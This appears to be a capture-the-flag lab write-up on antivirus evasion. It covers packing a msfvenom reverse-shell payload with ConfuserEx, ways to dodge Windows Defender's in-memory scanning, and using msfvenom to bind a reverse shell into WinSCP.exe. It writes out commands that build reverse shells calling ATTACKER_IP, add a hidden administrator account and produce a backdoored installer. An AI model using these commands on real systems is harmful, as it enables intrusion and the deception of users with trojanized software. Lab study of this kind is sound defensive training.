The process of **packing an application** involves applying a **packing function** that obfuscates the original code in a reversible way. This ensures that the program still runs as intended once unpacked. Typically, a **stub** is embedded within the executable to serve as an **unpacker**, and the executable’s entry point is redirected to it. When executed, the unpacker first runs, reads the packed code, restores the **original code** into memory, and then hands execution over to it. This creates a scenario where the file stored on disk looks different from the original, but the program executes identically after unpacking.
This technique makes it possible to evade **antivirus signature detection**. For example, a **reverse shell** executable that matches known AV signatures can be packed so that its disk representation no longer matches any signature, allowing it to bypass initial scans. However, AVs can still detect packed applications. This can happen because the unpacker stub itself may have a **known signature**, or because the program eventually **unpacks its code into memory**, where AVs with **in-memory scanning** capabilities can still recognize and block it.
### Packing our shellcode
We can begin the process from a basic C# shellcode, which can also be found at
“UnEncStagelessPayload.cs”
First, the shellcode must be generated and placed inside the code:
C:> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp
Once embedded in the **shellcode** variable, the payload is compiled with:
**csc** UnEncStagelessPayload.cs
When uploaded to the **THM Antivirus Check!**, this unprotected executable is flagged instantly. To bypass this, the payload is run through **ConfuserEx**, a .NET packer. The process involves selecting the desktop as the **base directory**, dragging the executable into the interface, applying a new **rule ("true")**, enabling **compression**, and setting the preset to **Maximum**. After clicking **Protect!**, a new packed executable is produced. Uploading this packed payload often avoids immediate AV detection, and if executed with a listener such as:
### nc -lvp 7478
a reverse shell should connect successfully.
However, **in-memory scanning** becomes a challenge. When commands are executed, **Windows Defender** hooks into API calls like **CreateProcess()** and detects the payload, terminating the shell. To reduce detection, several strategies can be applied. One method is simply to **wait a few minutes** before sending commands, as AV solutions tend to stop scanning memory after a short period due to performance costs. Another is to use **smaller payloads**; for example, generating a command execution payload instead of a full reverse shell makes detection harder:
msfvenom -a x64 -p windows/x64/exec CMD="net user pwnd Password321 /add;net localgroup administrators pwnd /add" -f csharp
Additionally, a **process-spawning trick** can be used: once inside the reverse shell, launch a new **cmd.exe.** The AV will kill the process associated with the payload but usually won’t terminate the newly spawned command shell.
### Binders
A **binder** is not an AV bypass method but is highly relevant when distributing **malicious payloads** to end users. A binder merges two or more executables into one, disguising the payload inside a legitimate program so users believe they are launching trusted software. Technically, the binder injects the **shellcode** into the chosen program and ensures it executes alongside the legitimate process. One way is by modifying the **PE header entry point** to run the shellcode first, then redirect execution back to the real program, making the payload invisible to the user.
With **msfvenom**, binders can be created directly. This tool injects the payload by spinning up a **new thread**, which allows the original program to continue functioning normally while the payload runs silently. This method has the added benefit of stability: if the payload crashes, the legitimate program still works. For instance, to backdoor **WinSCP.exe**, the following command can be used:
C:> msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7779 -f exe -o WinSCP-evil.exe
The resulting **WinSCP-evil.exe** will run the normal WinSCP application while simultaneously executing a **reverse_tcp meterpreter payload**. Before execution, a listener must be started to catch the shell:
### nc -lvp 7779
Once executed, the attacker receives a reverse shell while the victim sees only the legitimate WinSCP running.
However, binders do not inherently evade **antivirus detection**. Since the malicious payload is still present, the final bound executable will trigger the same **signatures** as the original payload. Thus, the main value of binders lies in **tricking users**, not bypassing AVs. For actual stealth, attackers often combine **encoders, crypters, or packers** with a binder. This way, the payload is hidden from signature-based scanners while remaining concealed inside a trusted application.
### CHALLENGE SECTION
In this challenge, the goal was to confirm which **antivirus software** was running on the target VM, identify the **user account**, and retrieve the **flag** from the victim’s desktop.
From the reverse shell obtained in Task 9, we are aware of the command **sc query windefend**
Running it on the “av-victim” machine will bring out the process name, so we know that Windows Defender is indeed running on that machine.
To find out the name of the user account on which we have access to, on the shell that we obtained on Task 9, we just run whoami, to see that the account is **av-victim**.
Then, for the final flag, we perform “dir” to browse the content of the victim’s Destop, where a file called **flag.txt** is located. From there, we just do **“type flag.txt”** and receive the flag.